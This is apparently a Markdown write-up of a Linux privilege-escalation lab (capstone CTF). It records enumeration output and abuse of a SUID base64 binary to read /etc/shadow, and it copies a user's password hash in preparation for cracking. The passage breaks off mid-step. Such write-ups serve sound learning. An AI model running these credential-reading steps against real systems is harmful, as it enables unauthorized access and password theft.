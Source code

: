 > Leave no privilege escalation vector unexplored, privilege escalation is often more an art than a science.

* `hostname` : ip-10-10-91-89
* `name -a` : Linux ip-10-10-91-89 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
* `cat /proc/version` : Linux version 3.10.0-1160.el7.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-44) (GCC) ) #1 SMP Mon Oct 19 16:18:59 UTC 2020
* `sudo -l` : Sorry, user leonard may not run sudo on ip-10-10-91-89.
* `id` : uid=1000(leonard) gid=1000(leonard) groups=1000(leonard) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
* ```
  history 
    1  ls
    2  cd ..
    3  exit
    4  ls
    5  cd Ã§Ã§
    6  cd ..
    7  ls
    8  cd home/
    9  ls
   10  cd missy/
   11  su missy 
   12  ls
   13  cd ..
   14  ls
   15  cd rootflag/
   16  ls
   17  cat flag2.txt 
   18  su root
   19  ls
   20  cd rootflag/
   21  su missy
```
* No results using `find` to search for "flag".
```
find / -name flag 2>/dev/null
```
* No exploits for kernel 3.10.0-1160 found on [Exploit Database](https://www.exploit-db.com/).
* `find / -type f -perm -04000 -ls 2>/dev/null` identified "base64" file with SUID (Set-user Identification) set.
  * "base64" file appears as SUID exploit on [GTFOBins](https://gtfobins.github.io/#base64%20+suid).
```
16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base64
```
* Used SUID exploit to read `etc/shadow` file.
```
LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
```
* `history` output suggested that "missy" user may have access to "flag1.txt".
```
mkdir ./Desktop/Capstone
cd ./Desktop/Capstone
touch passwd.txt shadow.txt passwords.txt
```
* Copied missy user unshadowed password hash into "shadow.txt"
```
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```
* Copied missy user data from `etc/passwd` into "passwd.txt".
```
cat /etc/passwd | grep missy
